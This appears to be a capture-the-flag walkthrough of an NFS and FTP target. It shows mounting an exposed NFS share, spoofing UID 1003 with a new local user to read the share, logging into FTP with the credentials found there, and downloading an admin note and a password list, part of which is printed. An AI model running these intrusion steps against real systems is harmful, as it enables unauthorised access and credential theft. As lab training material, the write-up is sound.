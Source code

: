 ## Port 111 & 2049 Analysis

I began by searching for mountable shares and found one that looked promising:
```bash
kali@kali:~$ showmount -e 10.10.125.174
  Export list for 10.10.125.174:
  /mnt/share *
kali@kali:~$ sudo mount -t nfs 10.10.125.174: /tmp/mount/ -nolock 
kali@kali:~$ cd /tmp/mount/mnt/share
cd: permission denied: share
kali@kali:~$ ls -l /tmp/mount/mnt
total 4
drwx------ 2 1003 1003 4096 Aug  8  2023 share
```

Although I was able to mount the share, I couldn't access it because the permissions were set to a user with ID `1003`. To bypass this, I created a user with the same ID, switched to that user, and tried again:
```bash
kali@kali:~$ sudo useradd hijack -u 1003  -m -s /bin/bash
kali@kal:~$ sudo su hijack

kali@kal:/tmp/mount/mnt/share$ cat for_employees.txt
  ftp creds :

  ftpuser:[removed]
```

## Port 21 Analysis

Since I found FTP credentials in the network share, I used them to log into the FTP service:
```bash
$ ftp ftpuser@10.10.125.174
  Connected to 10.10.125.174.
  220 (vsFTPd 3.0.3)
  331 Please specify the password.
  Password: 
  230 Login successful.
  ftp> ls -al
  drwxr-xr-x    2 1002     1002         4096 Aug 08  2023 .
  drwxr-xr-x    2 1002     1002         4096 Aug 08  2023 ..
  -rwxr-xr-x    1 1002     1002          220 Aug 08  2023 .bash_logout
  -rwxr-xr-x    1 1002     1002         3771 Aug 08  2023 .bashrc
  -rw-r--r--    1 1002     1002          368 Aug 08  2023 .from_admin.txt
  -rw-r--r--    1 1002     1002         3150 Aug 08  2023 .passwords_list.txt
  -rwxr-xr-x    1 1002     1002          655 Aug 08  2023 .profile
  ftp> get .from_admin.txt
  ftp> get .passwords_list.txt
```

The FTP server contained some interesting files, which I downloaded for further analysis:
```bash
  $ cat from_admin.txt 
  To all employees, this is "admin" speaking,
  i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

  NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.

  $ head passwords_list.txt 
  Vxb38mSNN8wxqHxv6uMX
  56J4Zw6cvz8qDvhCWCVy
  qLnqTXydnY3ktstntLGu
```